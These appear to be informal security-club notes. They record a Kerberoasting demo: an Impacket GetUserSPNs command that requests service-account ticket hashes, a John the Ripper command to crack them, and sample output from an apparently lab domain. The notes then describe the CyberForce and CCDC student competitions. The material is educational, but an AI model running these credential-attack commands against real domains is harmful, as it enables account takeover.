 @BarrySploit covered Kerberoasting using Impacket

impacket-GetUserSPNs -target-domain RebelAlliance.net RebelAlliance/jasonbarry:Password123 -request
#copy hashes into text file called hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt


```
impacket-GetUserSPNs -target-domain testdomain.local testdoamin/bart:Password123!

ServicePrincipalName   Name                MemberOf                                                                                PasswordLastSet             LastLogon  Delegation 
---------------------  ------------------  --------------------------------------------------------------------------------------  --------------------------  ---------  ----------
MSSQL/FSRWDBAS1000000  PORFIRIO_FLOYD      CN=AR-152-distlist1,OU=Groups,OU=AZR,OU=Tier 1,DC=testdomain,DC=local                   2022-02-01 18:11:58.790173  <never>               
MSSQL/ITSWLPT1000000   PORFIRIO_FLOYD      CN=AR-152-distlist1,OU=Groups,OU=AZR,OU=Tier 1,DC=testdomain,DC=local                   2022-02-01 18:11:58.790173  <never>               
MSSQL/ITSWWKS1000001   NOELLE_ROBBINS      CN=IR-198-distlist1,OU=Test,OU=FSR,OU=Tier 2,DC=testdomain,DC=local                     2022-02-01 18:12:00.970634  <never>               
CIFS/ESMWAPPS1000001   WILMA_PORTER        CN=IR-198-distlist1,OU=Test,OU=FSR,OU=Tier 2,DC=testdomain,DC=local                     2022-02-01 18:12:06.046787  <never>               
MSSQL/ITSWAPPS1000000  ADELE_PARKER        CN=LU-bla-admingroup1,OU=HRE,OU=People,DC=testdomain,DC=local                           2022-02-01 18:12:13.600047  <never>               
https/ITSWCTRX1000003  LEVI_DAVENPORT      CN=JO-endesdequ-distlist1,OU=Groups,OU=AWS,OU=Tier 2,DC=testdomain,DC=local             2022-02-01 18:12:14.494331  <never>               
ftp/SECWWKS1000002     HILARY_MEDINA       CN=JE-mfa-admingroup1,OU=Test,OU=SEC,OU=Tier 2,DC=testdomain,DC=local                   2022-02-01 18:12:25.459142  <never>               
MSSQL/GOOWLPT1000003   DEVIN_SANTOS        CN=69-francisca-distlist1,OU=Groups,OU=TST,OU=Stage,DC=testdomain,DC=local              2022-02-01 18:12:27.069247  <never>               
MSSQL/AWSWWKS1000000   SALLY_CHANEY        CN=ST-SigoenCli-distlist1,OU=Groups,OU=ESM,OU=Stage,DC=testdomain,DC=local              2022-02-01 18:12:56.685385  <never>               
POP3/ITSWLPT1000000    KIM_WOODWARD        CN=IR-mcc-distlist1,OU=Devices,OU=SEC,OU=Stage,DC=testdomain,DC=local                   2022-02-01 18:12:59.376549  <never>               
POP3/GOOWCTRX1000000   ERICA_TRAN          CN=76-te_123tit-admingroup1,OU=Test,OU=FIN,OU=Tier 1,DC=testdomain,DC=local             2022-02-01 18:13:01.435944  <never>               
CIFS/HREWLPT1000000    1889824127SA        CN=LE-6491eagle-distlist1,OU=OGC,OU=Tier 2,DC=testdomain,DC=local                       2022-02-01 18:13:03.967228  <never>               
kafka/BDEWAPPS1000003  JAME_DAVID          CN=ME-tmi-admingroup1,OU=Test,OU=BDE,OU=Tier 2,DC=testdomain,DC=local                   2022-02-01 18:13:11.232929  <never>               
CIFS/FSRWVIR1000000    GLENNA_FLEMING      CN=NI-roc-distlist1,OU=T1-Devices,OU=Tier 1,OU=Admin,DC=testdomain,DC=local             2022-02-01 18:13:16.857424  <never>               
ftp/AZRWAPPS1000000    MARCI_PACHECO       CN=66-amoaferna-distlist1,OU=OGC,OU=Stage,DC=testdomain,DC=local                        2022-02-01 18:13:17.670067  <never>               
ftp/GOOWLPT1000002     BERNIE_MADDEN       CN=QU-101-admingroup1,OU=Quarantine,DC=testdomain,DC=local                              2022-02-01 18:13:17.794744  <never>               
CIFS/ESMWLPT1000000    AUGUST_DELACRUZ     CN=SH-atari2600-distlist1,OU=Devices,OU=FSR,OU=Stage,DC=testdomain,DC=local             2022-02-01 18:13:22.623409  <never>               
https/AZRWLPT1000000   LATISHA_SHARPE      CN=NO-berna7946-distlist1,OU=Devices,OU=ESM,OU=Tier 2,DC=testdomain,DC=local            2022-02-01 18:13:23.185358  <never>               
MSSQL/OGCWDBAS1000000  GEORGINA_MCFADDEN   CN=JA-27j-distlist1,OU=Test,OU=AZR,OU=Tier 1,DC=testdomain,DC=local                     2022-02-01 18:13:24.576163  <never>               
MSSQL/HREWLPT1000000   ROBBIE_FLORES       CN=AB-630-admingroup1,OU=GOO,OU=Tier 1,DC=testdomain,DC=local                           2022-02-01 18:13:37.764245  <never>               
```

Kerberos Brute tool - https://github.com/ropnop/kerbrute


---

@dirf-jesseee discussed his envolvement in CyberForce and CCDC


Cyberforce - https://cyberforce.energy.gov/
For OT and IOT

For university students. Competition held once a year. This year it's held on Fri Nov, 4th to Sat Nov 5th

Virtual and In-person

@jesse is part of the vm development team

More details from Jesse:

I have some videos where I work thru issue and expland some things
[10:59 AM]
also some of the videos talk about troubleshooting and what the color boxes mean
Video of intro and getting gitlab - 
https://screencast-o-matic.com/watch/c360bsVujN5
Video of configuring system - 
https://screencast-o-matic.com/watch/c36OfgVuD5L
hello_world -
 https://screencast-o-matic.com/watch/c36OfMVuDGc

For the Red Team, industry folks can join(not just students)

---

CCDC - national Collegiate Cyber Defense Competition

https://www.nationalccdc.org/

